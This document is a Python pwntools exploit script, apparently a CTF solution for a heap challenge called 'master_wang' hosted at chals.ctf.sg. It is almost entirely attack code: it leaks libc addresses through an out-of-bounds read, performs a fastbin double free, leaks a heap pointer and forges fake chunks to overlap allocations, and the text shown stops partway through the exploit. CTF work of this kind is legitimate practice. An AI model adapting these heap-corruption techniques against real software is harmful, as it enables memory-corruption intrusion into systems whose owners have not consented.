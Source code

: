 ```python
from pwnscripts import *
context.libc_database = 'libc-database'
context.libc = 'wang.so.6'
context.binary = 'master_wang'

'''
20 <= angle <= 90
angle % 10 == 0
(angle/10)%2 == 0
'''
#r = context.binary.process()
r = remote('chals.ctf.sg', 20501)
@context.quiet
def select(i: int): r.sendlineafter('=> ', str(i))
def add(ang:int, data:bytes):
    select(1)
    assert 20 <= ang <= 90
    assert ang % 20 == 0
    r.sendlineafter('(degrees) => ', str(ang))
    na = 16*(ang//10-1)+8
    print(hex(na))
    assert b'\n' not in data
    if len(data) < na: data += b'\n'
    if len(data) == na: data = data[:-1]
    r.sendafter('Phrase => ', data)
def view(ind: int):
    select(2)
    r.sendlineafter('ID => ', str(ind))
    #context.log_level = 'warn'
    r.recvuntil('Data: ')
    #context.log_level = 'debug'
    return r.recvline()
def free(ind: int):
    select(3)
    r.sendlineafter("ID => ", str(ind))
#context.log_level = 'debug'
#gdb.attach(r, gdbscript='b *0x400c26\nc')
context.libc.symbols['puts'] = unpack(view((0x400570-context.binary.symbols['fengshui'])//context.bytes)[:-1].ljust(context.bytes,b'\0'))
log.info(hex(context.libc.symbols['__free_hook']))
log.info(hex(context.libc.symbols['__malloc_hook']))
#add(80, b'hi')
add(40, b'A'*12)# 0x40 bytes; 0x.*010
add(40, b'B'*12)# 0x40 bytes; 0x.*050
add(40, b'C'*12)# call this a dud; 0x.*090
add(80, fit({0x08: 0x11, 0x18: 0x11})) # 0x.*0d0; fake next chunk after [1] is changed to a fake unsorted bin
add(40, b'E'*12)
free(0)
free(1)
free(0)
heap_leak = unpack(view(0)[:-1].ljust(context.bytes,b'\0')) # 0x.*040
log.info(hex(heap_leak))
fakechunk = fit({
    0x00: heap_leak-0x20, # fd of the next [0] allocated; 0x.*020
    0x18: 0x41, # size
    0x20: 0,    # clean fd
})
add(40, fakechunk)
add(40, b'B'*12)
add(40, b'A'*4)
add(40, fit({0x18: 0x91})) # this data is written to 0x.*030

```